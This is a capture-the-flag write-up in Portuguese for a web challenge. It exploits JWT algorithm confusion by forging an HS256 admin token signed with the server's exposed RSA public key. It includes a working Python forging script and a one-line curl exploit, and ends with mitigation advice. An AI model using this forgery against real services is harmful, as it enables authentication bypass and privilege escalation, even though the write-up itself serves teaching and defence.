

<div align="center">

<a href="https://git.io/typing-svg"></a>

</div>

# Delegated Signature — WEB · 🔴 DIFFICILE

- **Status:** ✅ RESOLVIDO — JWT algorithm confusion RS256 → HS256
- **Pontos:** 175 (pontuação dinâmica; 137 solves no momento da resolução)
- **Alvo:** `https://signature-deleguee.cyberzerk.fr/` — portal admin "TRICATEL / SIRH"
- **Anexo:** `CONNECTION.txt` (endereço do serviço)
- **Enunciado:** *"Tokens are issued in RS256. Endpoints /login /pubkey /admin. Become an administrator."*
- **Flag:** `CyberZerk{...}` *(devolvida por `/admin`; valor omitido aqui porque chegou censurado na sessão — colar o `CyberZerk{...}` lido no terminal)*

---

## TL;DR

1. O servidor emite JWT **RS256** e **expõe a chave pública** em `/pubkey` ("para integrações").
2. A verificação confia no campo **`alg` do header** do próprio token → **algorithm confusion**.
3. Forjar um token com header **`HS256`** e `role: admin`, assinando um HMAC-SHA256 cujo **segredo é o PEM da chave pública**. Como a pública é conhecida, a assinatura é válida → `/admin` libera a flag.

## Análise

### Reconhecimento

Três endpoints, e a dev-note entregando o erro de projeto:

> *"la clé publique est exposée sur /pubkey pour les intégrations. Pratique. Je verrai la sécu lundi."*

| Rota | Resposta |
|---|---|
| `GET /login` | `{"token":"<JWT RS256>"}` |
| `GET /pubkey` | chave pública RSA 2048 (PEM) |
| `GET /admin` | com token comum → `Accès réservé aux administrateurs.` |

Token decodificado (header + payload, sem verificar assinatura):

```
HEADER : {"alg":"RS256","typ":"JWT"}
PAYLOAD: {"user":"marc_v","role":"user"}
```

Alvo claro: mudar `role` de `user` para `admin`.

### O bug: algorithm confusion (RS256 → HS256)

Em RS256 (assimétrico) o servidor **assina** com a chave **privada** e **verifica** com a **pública**.
A falha aparece quando a rotina de verificação é "polimórfica" e escolhe o algoritmo pelo
**`alg` do header do token** (padrão de muitas libs antigas / `jwt.verify` mal usado):

- Declaro `alg: HS256` no header.
- O servidor então trata a verificação como **HMAC simétrico** e usa a **string da chave pública**
  (o conteúdo do PEM que ele carregou) como **segredo** do HMAC.
- Segredo de HMAC não é segredo aqui: a chave pública é **pública**. Logo eu calculo o mesmo
  `HMAC-SHA256(PEM, header.payload)` que o servidor vai recalcular → assinatura válida.



### Forja e exploração

Segredo = **conteúdo exato** do `pubkey.pem` como servido (inclusive o `\n` final). Feito com
`hmac`/`hashlib` puro porque o PyJWT recusa de propósito usar chave assimétrica como segredo HS256:

```python
import base64, hmac, hashlib, json
b64 = lambda b: base64.urlsafe_b64encode(b).rstrip(b'=')
secret  = open('pubkey.pem','rb').read()
header  = b64(json.dumps({"alg":"HS256","typ":"JWT"}, separators=(',',':')).encode())
payload = b64(json.dumps({"user":"marc_v","role":"admin"}, separators=(',',':')).encode())
signing = header + b'.' + payload
sig     = b64(hmac.new(secret, signing, hashlib.sha256).digest())
print((signing + b'.' + sig).decode())
```

Envio no `/admin`:

```
Bienvenue administrateur.
CyberZerk{...}
```

## O que não funcionou

| Hipótese / tropeço | Resultado | Por quê |
|---|---|---|
| Colar o bloco de comandos com as bordas do terminal | ✗ | os `│` viravam comando (`command not found: │`) — usar o botão de copiar limpo |
| Ler os claims pelo lado do assistente | ✗ | token chegava censurado (`[REDACTED-SECRET-...]`) → decodificação feita localmente |

*(O payload/segredo com `\n` final funcionou de primeira; o fallback previsto — `rstrip(b'\n')` no PEM — não foi necessário.)*

## Conclusão

Algorithm confusion de livro: expor a chave pública **e** deixar a verificação escolher o algoritmo
pelo header transforma a pública em segredo HMAC forjável. O trabalho foi confirmar o claim
(`role`) e usar o PEM **byte a byte** como segredo.

**Mitigação:** fixar o algoritmo esperado na verificação (`algorithms=["RS256"]` explícito, nunca
derivar do header); idealmente separar chaves de assinatura e de verificação por tipo.

---

## Apêndice — exploit em uma linha

```bash
FORGED=$(python3 -c "import base64,hmac,hashlib,json;b=lambda x:base64.urlsafe_b64encode(x).rstrip(b'=');s=open('pubkey.pem','rb').read();h=b(json.dumps({'alg':'HS256','typ':'JWT'},separators=(',',':')).encode());p=b(json.dumps({'user':'marc_v','role':'admin'},separators=(',',':')).encode());m=h+b'.'+p;print((m+b'.'+b(hmac.new(s,m,hashlib.sha256).digest())).decode())")
curl -s -H "Authorization: Bearer $FORGED" https://signature-deleguee.cyberzerk.fr/admin
```
